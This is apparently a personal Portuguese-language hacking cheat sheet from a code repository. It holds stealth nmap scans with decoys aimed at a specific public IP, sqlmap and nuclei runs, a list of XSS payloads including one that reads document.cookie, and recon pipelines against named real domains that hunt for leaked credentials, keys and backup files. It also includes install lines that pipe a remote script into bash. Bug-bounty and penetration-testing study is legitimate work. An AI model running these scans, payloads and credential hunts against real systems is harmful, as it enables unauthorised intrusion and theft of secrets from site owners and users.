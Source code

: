 # Anotações de Hacking

### Scanners

```shell
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122

nmap -v -sS -p- -f -D RND:10 --min-rate 100 -Pn 18.228.216.123

nmap -v -sS -p22 -f -D RND:10 --scan-delay 10s --max-rate 1 -T1 -Pn 18.228.216.123

nuclei -l windowsHosts -tags windows,smb -code -esc -silence

sqlmap -r req.txt --dbs --batch --random-agent --proxy http://127.0.0.1:8082 --dbms=mysql --technique=U
```

### Payloads XSS

```javascript
<img src/onerror=prompt(document.cookie)>
<<script>promp()</script>
<body onload=alert(1)>
<img src=x onerror=alert(1)>
<input onmouseover=alert(1)>
<svg/onload=alert(1)>
<svg/onload=prompt()>
```

### tools Guthub

[XSS Automation](https://github.com/dirtycoder0124/XSS-Automation/blob/main/xss_automation.sh)
[KingOfBugBountyTips](https://github.com/KingOfBugbounty/KingOfBugBountyTips)
[Bug-Bounty-Toolz](https://github.com/KingOfBugbounty/Bug-Bounty-Toolz)
[GoldenNuggets](https://github.com/GainSec/GoldenNuggets-1)
[Ghauri](https://github.com/r0oth3x49/ghauri)

### Cursos

[Curso Pentest ACtive Directory](https://academy.simplycyber.io/)

### Scanner de Code Review

```shell
curl -sL -o /tmp/output.tar.gz https://github.com/gitleaks/gitleaks/releases/download/v8.24.3/gitleaks_8.24.3_linux_x64.tar.gz; tar -zxvf /tmp/output.tar.gz -C /tmp/; mv /tmp/gitleaks /bin/; chmod +x /bin/gitleaks; gitleaks detect . -v --no-git -f sarif -r GITLEAKS_RESULT.sarif;

curl -fsSL https://raw.githubusercontent.com/ZupIT/horusec/main/deployments/scripts/install.sh | bash -s latest; horusec start -p . --disable-docker=true --information-severity=true -o sarif -O ./HORUSEC_RESULT.sarif;
```

### ACESSAR ARQUIVOS COM STATUS 404:

```shell
curl -G "https://web.archive.org/cdx/search/cdx" --data-urlencode "url=*.policybazaar.com/*" --data-urlencode "collapse=urlkey" --data-urlencode "output=text" --data-urlencode "fl=original" > out.txt

cat out.txt | uro | grep -E '\.xls|\.xml|\.xlsx|\.json|\.pdf|\.sql|\.doc|\.docx|\.pptx|\.txt|\.zip|\.tar|\.gz|\.tgz|\.bak|\.7z|\.rar|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.config|\.cvs|\.yaml|\.md|\.md5|\.exe|\.dll|\.bin|\.ini|\.bat|\.sh|\.cmd|\.deb|\.rpm|\.iso|\.img|\.apk|\.msi|\.dmg|\.tmp|\.crt|\.pem|\.key|\.pub|\.asc'
```
Wayback Machine > search > url encontrada


### JsRecon Methodology:

```shell
katana -u samsung.com -d 5 -jc | grep '\.js$' | tee alljs.txt
echo www.samsung.com | gau | grep '\.js$' | anew alljs.txt
cat alljs.txt | uro | sort -u | httpx-toolkit -mc 200 -o samsung.txt
cat samsung.txt | jsleak -s -l -k
cat samsung.txt | nuclei -t nuclei-templates/credentials-disclousure-all.yaml -c 30
cat samsung.txt | nuclei -t nuclei-templates/http/exposures -c 30
cat samsung.txt | xargs -I{} bash -c 'echo -e "\ntarget : {}\n" && python lazzyegg.py "{}" --js_urls --domains --ips --leaked_creds --local_storage'
```

### Download de APK

[APK Downloader](https://apps.evozi.com/apk-downloader/)

Coloca o link de download do play store e ele baixa.
